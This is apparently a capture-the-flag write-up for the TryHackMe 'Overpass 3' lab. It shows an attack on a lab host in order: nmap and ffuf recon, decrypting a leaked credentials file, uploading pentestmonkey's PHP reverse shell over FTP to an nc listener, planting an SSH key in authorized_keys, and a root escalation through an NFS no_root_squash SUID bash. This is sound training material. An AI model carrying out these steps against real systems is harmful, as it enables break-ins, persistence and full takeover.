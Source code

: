 ### THM - Overpass 3 - Hosting
Difficulty: Medium 

#### Recon
We can start with nmap scan command:

```sudo nmap -vv -A -Pn -p- -oA overpass3_nmap 10.10.205.247```

![nmap_running](img/nmap_still_running.png)

While nmap still running we can see that port 80, 21, 22 is open. We can start doing some basic manual recon on the webserver port 80.

![source](img/web_source.png)

On the web page, it is safe to assume that paradox, Elf, MuirlandOracle, and James are the users. There is really nothing else to do on the web page. Before we move on to the nmap scan results, lets start our ffuf scan on the webserver. 

```ffuf -u http://10.10.205.247/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.txt,.html -ic -c```

Now while ffuf is running, We can move on to the nmapp scan results.

![nmap_results](img/nmap_results.png)

We can see that port 21 is open and running vsftpd 3.0.3. However, we can see that anonymous login is disabled. We can also see that port 22 is open and running OpenSSH 8.0 and port 80 is running Apache httpd 2.4.37. Let's check on the ffuf scan results.

![ffuf_results](img/ffuf_scan.png)

We can see that there is a directory called 'backups'. Let's check on that.

![backups](img/backups_dir.png)

Let's download that backup.zip file and see what's inside.

![backup_zip](img/backup_zip_folder.png)

We can see that there is an excel gpg encrypted file and a private key. Let's try to decrypt the file using the private key and convert it to csv file so we can open it.

```gpg --import priv.key```

```gpg --output CustomerDetials.xlsx --decrypt CustomerDetials.xlsx.gpg```

```ssconvert CustomerDetials.xlsx CustomerDetials.csv```

![gpg_decrypt](img/gpg_decrypt.png)

![csv_file](img/customer_details.png)

#### Exploit

We can see that there are some usernames and passwords in the csv file. We also know that paradox and muirlandoracle are the users from the web page. 

Let's see if we can ssh to paradox with the credential we found.

![ssh_paradox](img/ssh_paradox_failed.png)

Host doesn't allow ssh login with password without an authorized public key. Let's try to login to the ftp server using the credentials we found.

```ftp 10.10.205.247```
 
 After we login to the ftp server, we can see that it is the /var/www/html directory. It looks like we have permission to upload files. Let's upload a reverse shell and try to get a shell. We will be usig the php reverse shell from pentestmonkey [php_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Let's upload the shell and start a netcat listener.

![ftp_upload](img/second_ftp.png)

 ```nc -lvnp 4444```

 and call the shell from the browser. ```10.10.205.247/shell.php```

and we got a shell.

![shell](img/1foothold.png)

Since we have a foothold, let's make this shell feel a little more comfortable. We can use python to get a better shell.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

```stty raw -echo; fg```

![better_shell](img/better_shell.png)


#### Privilege Escalation

We can see that we are in the apache user with limited permissions. However, we can try to find a web flag. So let's do some enumeration. This flag is well hidden but after a while of enumeration, we can see that it is in ```/usr/share/httpd/web.flag```. The easier way to find this flag is to use the find command.

```find / -name *flag* 2>/dev/null```

Now that we found it, let's cat it and get the flag.

![web_flag](img/web_flag.png)

First flag down. Let's see what other users are on this host. We can use the command ```cat /etc/passwd``` to see all the users on the host.

![users](img/passwd.png)

We can see that paradox user is on there. Let's try to switch to paradox user with su command.

![su_paradox](img/su_paradox.png)

Great!...but we can see that there is no flag in paradox home directory. There is another user called James. However, we dont have James password. Let's do some more enumeration.

*Extra

Since we can't ssh to paradox with password, we can try to create a private key on our machine and add the generated public key to authorized_key in .ssh folder in paradox home directory. This way we can ssh to paradox without password.

```ssh-keygen paradox```

Let's add our public key to authorized_key file.

```echo {OUR_GENERATED_PUBLIC_KEY.pub} >> .ssh/authorized_keys```

Then let's try to ssh to paradox.

```ssh paradox@10.10.205.247 -i paradox```

![ssh_paradox](img/ssh_paradox.png)

Great! we can ssh to paradox with our private key. Now let's do some more enumeration to gain access to James account. 

After some basic enum we can see that there is a NFS share on the host with misconfigured permissions. Let's mount the share and see what's inside.

![nfs_share](img/nfs_share.png)

Let's try to mount the share.

```mkdir /tmp/mount```

```sudo mount -v -t nfs 10.10.205.247:/ /tmp/mount```

![failed_nfs](img/failed_nfs.png)

We got "mount.nfs: mount(2): No route to host" error. Let's see if we can list the nfs mount on the host.

```showmount -e 10.10.205.247```

And we get "clnt_create: RPC: Unable to receive" error. Let's check rpcinfo to see if rpcbind is running.

```rpcinfo -p```

![rpcinfo](img/rpcinfo.png)

We can see that rpcbind is running and nfs is on the normal nfs port 2049. After trying to run command ```netstat -l``` to see the listening port, we can see that the host doesn't have netstat installed. Hmm...let's try to reverse ssh to the port and try to mount the share again.

```ssh paradox@10.10.205.247 -i paradox -L 2049:localhost:2049```

```sudo mount -v -t nfs localhost:/ /tmp/mount```

![nfs_mount](img/mounted_nfs.png)

Let's go ahead and get that user flag.

![user_flag](img/user_flag.png)

We can also find a private key in the share. Let's try to use that key to ssh to James account.


```ssh james@10.10.205.247 -i /tmp/mount/.ssh/id_rsa```

Now that we have user flag and ssh to James user, let's try to get root flag. We know that this share is configured with "no_root_squash" option. We use it to get root shell by upload our own bash with SUID bit set and root as owner. Let's create a bash file with SUID bit set and root as owner.

```cp /bin/bash .```

```chmod +xs bash```

![james_folder](img/james_folder.png)

And we can run it with this command to get root.

```./bash -p```

![gcc_error](img/gcc_error.png)

However, we get gcc error. Let's try to use bash from the host.

On James.
```cp /bin/bash .```

```chmod 777 bash```

On our machine.

```chown root bash```

```chmod +xs bash```

On James.

```./bash -p```

![root_shell](img/root_shell.png)

Great! We are now root. Let's get the root flag.

![root_flag](img/root_flag.png)

And we got the root flag. Thanks for reading.


